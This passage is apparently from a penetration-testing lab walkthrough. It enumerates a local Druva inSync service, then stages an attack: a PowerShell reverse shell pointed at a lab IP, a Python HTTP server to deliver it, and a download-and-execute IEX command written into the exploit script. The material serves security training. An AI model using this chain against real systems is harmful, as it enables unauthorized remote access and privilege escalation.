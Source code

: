 #### 2. Enumerate Druva inSync Service
```powershell
# Open PowerShell and find process listening on port 6064
netstat -ano | findstr 6064

# Expected output:
TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3416
TCP    127.0.0.1:6064         127.0.0.1:55619        ESTABLISHED     3416
TCP    127.0.0.1:55619        127.0.0.1:6064         ESTABLISHED     3984
TCP    127.0.0.1:62905        127.0.0.1:6064         TIME_WAIT       0
TCP    127.0.0.1:62906        127.0.0.1:6064         TIME_WAIT       0

# Map process ID to running process (use PID from netstat output)
get-process -id 3416

# Expected output:
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    143       9     1420       6476              3416   0 inSyncCPHwnet64

# Verify Druva service is running
get-service | ? {$_.DisplayName -like 'Druva*'}

# Expected output:
Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

#### 3. Prepare Attack Infrastructure on Pwnbox
```bash
# Download Invoke-PowerShellTcp.ps1 from GitHub and rename to shell.ps1
# Add this line at the bottom of shell.ps1:
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 9443

# Start Python HTTP server in same directory as shell.ps1
python3 -m http.server 8080

# Expected output:
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### 4. Configure Druva Exploit Script
```powershell
# On Windows target, use File Explorer to navigate to C:\Tools
# Edit Druva.ps1 script with Notepad
# Replace IP address and port with Pwnbox IP address

# The Druva.ps1 script should be modified to contain:
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.80:8080/shell.ps1')"
# (Replace 10.10.14.80 with your actual Pwnbox IP)
```
